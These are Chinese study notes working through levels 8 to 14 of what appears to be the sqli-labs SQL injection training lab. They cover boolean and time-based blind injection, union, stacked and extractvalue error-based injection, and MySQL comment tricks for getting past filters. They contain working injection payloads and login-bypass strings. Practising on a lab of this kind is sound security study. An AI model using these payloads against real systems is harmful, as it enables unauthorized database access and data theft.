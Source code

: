 # 8-14
## 第八关
通过尝试发现为字符型注入
使用union注入发现，无回显信息，仅能通过对比返回页的信息变化来判断是否执行正确语句
因此，尝试使用布尔盲注
盲注流程：

+ 猜解数据库的数量
+ 猜解数据库的长度
+ 猜解数据库名
+ 猜解表的数量
+ 猜解表名的长度
+ 猜解表名
+ 猜解列的数量
+ 猜解列名
+ 猜解字段数量
+ 猜解字段长度
+ 猜解字段
通过脚本跑出结果(手搓太慢了)
## 第九关
各种尝试页面没有任何变化
通过时间盲注判断是否存在注入点
` id=1' and if(1=1,sleep(10),1);`
十秒后才返回页面，说明是字符型注入
```
?id=1' and if(length(database())>5,sleep(5),0)--+    //判断数据库长度
?id=1' and if(ascii(substr(database(),1,1))>97,sleep(5),0)--+ //猜解数据库字符
?id=1' and if(ascii(substr((select schema_name from information_schema.schemata limit 0,1),1,1))>97,sleep(5),0)--+ //猜解查询结果的第一个字符的ASCII值范围
```
写脚本跑，或者用sqlmap跑结果
## 第十关
和第九关相同都是时间盲注
尝试是否存在注入点,id被"包裹
`?id=1" and if(1=1,sleep(10),0)--+`
注入手法和第九关相同
```
?id=1" and if(length(database())>5,sleep(5),0)--+    //判断数据库长度
?id=1" and if(ascii(substr(database(),1,1))>97,sleep(5),0)--+ //猜解数据库字符
?id=1" and if(ascii(substr((select schema_name from information_schema.schemata limit 0,1),1,1))>97,sleep(5),0)--+ //猜解查询结果的第一个字符的ASCII值范围
```
同样使用脚本跑
## 第十一关
该关是一个登录框，因此是POST传参
通过测试发现是字符型注入，该关是用and 语句进行连接两个输入语句，该关需要注意注释符的使用
**MySQL注释符有三种：**
>`-- `,`#`,`/**/`
>URL中`+`常作为`空格`的替代符号，因此，GET类型传参时常输入`--+`经过URL编码后传输到后端，到数据库中执行时就变成了`-- `(含空格)
>POST方式传参时不会对数据进行URL编码，因此此时输入`--+`就无法起到注释效果
>`#`与`-- `效果相同常用于POST传参时使用，在GET传参中`#`有这特殊含义不会被当作字符传输，因此无法起到注释效果
>`/**/`内联注释，常用于空格过滤的绕过
>总结：GET方式注释使用`--+`或`%23`（#的URL编码），POST方式使用`-- `或`#`，`/**/`作为空格过滤的waf绕过

知道注释符的关系后，再次进行尝试发现是字符型注入，id被`'`包裹，使用union注入成功
```
admin' order by 3 //查询出两列
-aaaa' union select 1,database()#
```
后续和GET传参相同
## 第十二关
尝试探测是否存在sql注入
输入双引号时，报错
>You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '1") LIMIT 0,1' at line 1
输入两个双引号时无报错
因此，认为该处存在id被双引号包裹的字符型注入
后续又尝试输入`admin" or 1=1 "`，报错
>You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"") and password=("") LIMIT 0,1' at line 1
因此，正确的应该是被`("")`包裹的。闭合后，无报错，猜想正确。
尝试union注入：  
```
admin") order by 1#
-1") union select 1,database()#
```
成功回显，后续进行union注入即可
## 第十三关
输入`admin'`后报错
>You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''admin'') and password=('') LIMIT 0,1' at line 1
可以确定是`('')`包裹的字符型注入
闭合后成功登录
尝试union注入
```
admin')order by 3#
-1')union select 1,database()#
```
发现无发爆出信息
尝试堆叠注入
```
admin');select database();#
```
报错无法执行
尝试注入探测
```
admin') and 1=1 # 
admin') and 1=2 # 
```
发现回显结果不同，可以执行报错注入，布尔盲注，时间盲注等手段
```
admi') and extractvalue(1,concat(0x7e,database(),0x7e))#
```
成功报错出数据库信息，后续使用报错注入即可
## 第十四关
尝试输入`admin'#`,`admin"#`
发现`admin"#`成功登录
可以判定存在以`"id"`包裹的字符注入
进一步尝试：
`admin"and 1=1`
`admin" and 1=2`
发现回显结果不同，可以尝试报错注入，布尔盲注，时间盲注等手段

尝试union注入：
```
admin" order by 2#
-1" union select 1,database()#
```
只回显成功登录，没有数据库信息
尝试堆叠注入
```
admin";select database();#
```
报错无法执行
尝试报错注入
```
admin" and extractvalue(1,concat(0x7e,database(),0x7e))#
```
成功爆出数据库信息，使用报错注入即可

